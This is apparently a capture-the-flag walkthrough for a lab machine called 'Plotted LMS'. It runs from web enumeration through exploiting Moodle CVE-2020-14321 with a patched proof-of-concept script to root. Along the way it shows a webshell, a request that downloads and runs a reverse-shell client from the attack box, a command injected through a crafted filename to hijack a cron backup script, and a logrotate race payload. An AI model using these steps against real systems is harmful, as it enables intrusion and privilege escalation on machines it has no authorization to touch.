 # Plotted LMS

A fairly hard room, largely due to the breadth of the enumeration and its numerous rabbit holes, plus some instability mixed with dickery in the foothold path.

1. A rust scan reveals four websites, 80, 873, 8820 and 9020. All show a default apache page
2. Using ffuf with directory wordlist medium on each, it reveals three sites: :873/rail, :8820/learn and :9020/moodle. The first two look to be custom built, but the last is a regular moodle instance.
3. Running moodlescan against the moodle url, reveals it is version 3.9 beta. This version is vulnerable to CVE-2020-14321, a authenticated remote code execution vulnerability.
4. The vuln requires the creds or cookie of a 'teacher'. Fortunately the site allows registeration, so I register a `test123:Test-123` user. Furthermore, there is a course 'teachers only' that allows self-enrollment, making the new user a teacher.

> The next bit was tricky. It took me four instances of the target VM and a lot of dickery to get the exploit working. Part of it was the author's countermeasures: any request without a referer header would respond with a rickroll message, breaking the script. But aside from that, the exploit itself seemed dependent on a very specific state - any messing about with moodle as I did trying to debug or enumerate would break the script flow, very annoying. In the end, the exact steps described following worked somewhat consistently.

5. On exploit-db, there is a reference impl for this vuln: https://www.exploit-db.com/exploits/50180. Instead of using that directly, I used the original repo referenced: https://github.com/HoangKien1020/CVE-2020-14321
6. Before running, this needs to be modified:
    - on line 9, this line: `headers={"Content-Type":"application/x-www-form-urlencoded"}` should be expanded to include a referer value, e.g. `headers={"Content-Type":"application/x-www-form-urlencoded","Referer": "http://10.10.94.67:9020/moodle/"}`
    - there are two uses of `session.get` in the script that dont specify headers, e.g. line 27~: `r=session.get(login_url,proxies=proxies)`. This should be changed to add the headers variable, e.g. `r=session.get(login_url,proxies=proxies,eaders=headers)`.
7. Running the script like so will hopefully result in output like the following:

    ```bash
    root@ip-10-10-242-204:~# python3 ./cve202014321.py -url http://10.10.94.67:9020/moodle -u test123 -p Test-123 -cmd=ls
                             ***CVE 2020 14321***
        How to use this PoC script
        Case 1. If you have vaid credentials:
        python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
        Case 2. If you have valid cookie:
        python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

    [+] Your target: http://10.10.94.67:9020/moodle
    [+] Logging in to teacher
    [+] Teacher logins successfully!
    [+] Privilege Escalation To Manager in the course Done!
    [+] Maybe RCE via install plugins!
    [+] Checking RCE ...
    [+] RCE link in here:
    http://10.10.94.67:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=ls
    block_rce.php

    ```
    
8. with the new webshell we can get a strong reverse shell. I used `https://github.com/NHAS/reverse_ssh` to get a full shell as www-data. E.g., via the following path (with the ip of my attack box and webserver port in there:

    ```
    GET /moodle/blocks/rce/lang/en/block_rce.php?cmd=wget+10.10.132.8%3a1234/client+%26%26+chmod+%2bx+client+%26%26+./client+%26 HTTP/1.1
    ```

10. To pivot to the `plot_admin` user, there is a cronjob that runs every minute, executing a script called backup.py in the plot_admin user's home directory. The contents of this script are:

    ```python
    import os

    moodle_location = "/var/www/uploadedfiles/filedir/"
    backup_location = "/home/plot_admin/.moodle_backup/"

    os.system("/usr/bin/rm -rf " + backup_location + "*")

    for (root,dirs,files) in os.walk(moodle_location):
            for file in files:
                    os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
    ```
    
10. To exploit this, as we have write into `/var/www/uploadedfiles/filedir/`, we can create a file in there like `$(chmod 777 backup.py)`. This can be done with `touch \$\(chmod\ 777\ backup.py\)` in that folder. Within a minute, the backup file will be writable by our user.
11. Next, adding `os.system("/var/www/9020/moodle/blocks/rce/lang/en/client")` into backup.py (after removing the chmod file above, as it breaks the script) will get a reverse shell as plot_admin. Note this is using the reverse_ssh client I downloaded with the webshell.

> The following root privesc seemed *real* flaky, and I tried over multiple restarts to get it to work, only persisting once I checked and my approach *is* intended. So, just be aware that this might require a few goes. Best bet I've found is to get in there quick - I've had it work semi-seamlessly if I'm running logrotate 10 minutes after machine boot.

13. Careful enumeration or using pspy will reveal logrotate is being used with a custom config file at `/etc/logbackup.cfg`. The contents of this are:

    ```
    /home/plot_admin/.logs_backup/moodle_access {
        hourly
        missingok
        rotate 50
        create
    }
    ```
    
14. This suggests a [logrotten](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition) vulnerability, since we control that directory as plot_admin. Basically we can swap out the file being created/updated due to a race condition, plonk a payload into bash completion, and when the root user logs in they will trigger the payload and grant us a shell. Enumeration shows we don't have to wait - the root user is executing what they find in bash completion on a schedule.
15. To abuse this, I used https://github.com/whotwagner/logrotten. My payload file triggered a reverse_ssh client. In order to trigger the log rotate, you need to modify the moodle_access backup file - this can all be done in a few lines like so (run from plotadmin's home folder, where client and logrotten (compiled) have been placed:

    ```
    echo 'if [ `id -u` -eq 0 ]; then (/home/plot_admin/client &); fi' > payloadfile
    cp .logs_backup/02.06.2022 .logs_backup/moodle_access; ./logrotten -p payloadfile -d /home/plot_admin/.logs_backup/moodle_access
    ```
17. And after a few minutes (or rather, five or so restarts and many hours of waiting) boom root!
